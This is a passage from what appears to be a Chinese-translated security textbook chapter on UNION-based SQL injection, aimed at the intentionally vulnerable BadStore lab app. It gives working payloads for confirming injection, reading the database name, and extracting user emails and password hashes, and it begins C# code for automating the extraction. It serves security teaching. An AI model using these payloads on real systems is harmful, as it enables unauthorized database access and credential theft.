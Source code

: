 列表 2-29：正确平衡的 SQL 注入，成功从数据库中返回"hacked"一词

当这个负载中的 searchquery 值传递给应用程序时，searchquery 变量直接用于发送到数据库的 SQL 查询中，我们将原始 SQL 查询（列表 2-28）转变为一个原始程序员未曾预期的新 SQL 查询，如列表 2-30 所示。

> SELECT itemnum, sdesc, ldesc, price FROM itemdb WHERE 'fdas' UNION ALL SELECT
> 
> NULL, NULL, 'hacked', NULL➊# ' IN (itemnum,sdesc,ldesc) 列表 2-30：完整的 SQL 查询，附加负载后返回"hacked"一词

我们使用哈希标记 ➊ 来截断原始 SQL 查询，将任何在有效负载后面的 SQL 代码转化为 MySQL 不会执行的注释。现在，任何额外的数据（在此案例中是"hacked"）应该出现在 UNION 的第三列中，以便返回到 Web 服务器的响应中。

人类通常可以很容易地确定有效负载返回的数据在 Web 页面中的显示位置。然而，计算机需要被告知在哪里查找从 SQL 注入攻击中带回的数据。程序化地检测攻击者控制的数据在服务器响应中的位置可能是困难的。为了简化这一过程，我们可以使用 CONCAT SQL 函数，将我们真正关心的数据用已知的标记包围，如列表 2-31 所示。

> searchquery=fdsa'+UNION+ALL+SELECT+NULL, NULL, CONCAT(0x71766a7a71,'hacked',0x716b626b71), NULL#

列表 2-31：返回"hacked"单词的 searchquery 参数的示例有效负载

列表 2-31 中的有效负载使用十六进制值在我们通过有效负载选择的额外值"hacked"的左右添加数据。如果有效负载在 Web 应用程序的 HTML 中回显，正则表达式就不会意外地匹配原始有效负载。在这个例子中，0x71766a7a71 是 qvjzq，0x716b626b71 是 qkbkq。如果注入成功，响应应该包含 qvjzqhackedqkbkq。如果注入失败，且搜索结果按原样回显，像 qvjzq(.*)qkbkq 这样的正则表达式将无法匹配原始有效负载中的十六进制值。MySQL 的 CONCAT()函数是确保我们能够从 Web 服务器响应中抓取正确数据的一个便捷方法。

列表 2-32 显示了一个更有用的示例。在这里，我们可以替换先前有效负载中的 CONCAT()函数，以返回当前数据库，数据库名会被已知的左右标记包围。

> CONCAT(0x7176627a71, DATABASE(), 0x71766b7671) 列表 2-32：返回当前数据库名称的示例有效负载

在 BadStore 搜索功能上的注入结果应该是 qvbzqbadstoredbqvkvq。一个正则表达式，如 qvbzq(.*)qvkvq，应该返回 badstoredb 的值，即当前数据库的名称。

现在我们知道如何有效地从数据库中提取值，我们可以开始使用 UNION 注入从当前数据库中抽取数据。在大多数 Web 应用程序中，一个特别有用的表是用户表。正如在列表 2-33 中看到的，我们可以很容易地使用先前描述的 UNION 注入技术，通过一次请求和有效负载来枚举用户及其密码哈希，数据来自用户表（称为 userdb）。

> searchquery=fdas'+UNION+ALL+SELECT+NULL, NULL, CONCAT(0x716b717671, email,
> 
> 0x776872786573, passwd,0x71767a7a71), NULL+FROM+badstoredb.userdb#

列表 2-33：此有效负载从 BadStore 数据库中提取电子邮件和密码，并用左右分隔符进行分隔。

如果注入成功，结果应在网页中的项目表格中显示出来。

以编程方式执行基于 UNION 的漏洞利用

现在，让我们看看如何通过一些 C# 代码和 HTTP 类来以编程方式执行此漏洞利用。通过将清单 2-33 中显示的负载放入 searchquery 参数，我们应该能在网页中看到一个包含用户名和密码哈希值的项目表格，而不是任何真实的项目。我们只需要发送一个 HTTP 请求，然后使用正则表达式从 HTTP 服务器的响应中提取位于标记之间的电子邮件和密码哈希。

创建标记以查找用户名和密码

首先，我们需要创建正则表达式的标记，如清单 2-34 所示。这些标记将用于在 SQL 注入过程中界定从数据库中获取的值。我们希望使用一些看起来是随机的字符串，这样它们在 HTML 源代码中不太可能找到，从而使我们的正则表达式只抓取我们想要的用户名和密码哈希，而不会抓取其他内容。

> string frontMarker = ➊"FrOnTMaRker";
> 
> string middleMarker = ➋"mIdDlEMaRker";
> 
> string endMarker = ➌"eNdMaRker";
> 
> string frontHex = string.➍Join("", frontMarker.➎Select(c => ((int)c).ToString("X2")));
> 
> string middleHex = string.Join("", middleMarker.Select(c => ((int)c).ToString("X2")));
> 
> string endHex = string.Join("", endMarker.Select(c => ((int)c).ToString("X2"))); 清单 2-34：创建用于 UNION 型 SQL 注入负载的标记

